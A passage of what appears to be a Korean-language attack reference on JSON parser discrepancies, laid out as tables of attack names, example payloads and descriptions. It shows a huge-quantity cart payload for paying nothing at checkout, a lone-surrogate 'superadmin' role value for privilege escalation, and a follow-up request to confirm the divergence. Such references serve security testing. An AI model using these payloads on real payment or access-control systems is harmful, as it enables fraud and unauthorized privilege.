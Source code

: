       <td>숫자 처리 방식의 차이를 유발하도록 변형된 JSON 페이로드를 실제 결제 엔드포인트에 주입하여, 백엔드의 검증 로직과 결제 로직이 서로 다른 값을 처리하도록 한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Validation

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시 페이로드</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Divergence Confirmation</td>
      <td>
        <pre><code>GET /api/cart_total</code></pre>
      </td>
      <td>공격 페이로드 전송 후, 시스템의 최종 상태를 확인하는 API 엔드포인트에 요청을 보낸다. 이를 통해 파서 간 불일치로 인해 의도한 결과가 실제로 적용되었는지 검증한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Exploitation

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시 페이로드</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Business Logic Bypass</td>
      <td>
        <pre><code>{
    "cart": [
        { "id": 8, "qty": 999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999 }
    ]
}</code></pre>
      </td>
      <td>파서 간 큰 숫자 처리 방식의 차이를 악용하여 비즈니스 로직을 우회한다. 앞단의 검증 로직은 큰 수량(qty)을 정상으로 인식하지만, 결제 로직에서는 이를 0으로 처리하여, 실제로는 비용을 지불하지 않고 상품을 주문하는 공격을 수행한다.</td>
      <td>[1]</td>
    </tr>
    <tr>
      <td>Privilege Escalation</td>
      <td>
        <pre><code>{
    "roles": ["superadmin\ud888"]
}</code></pre>
      </td>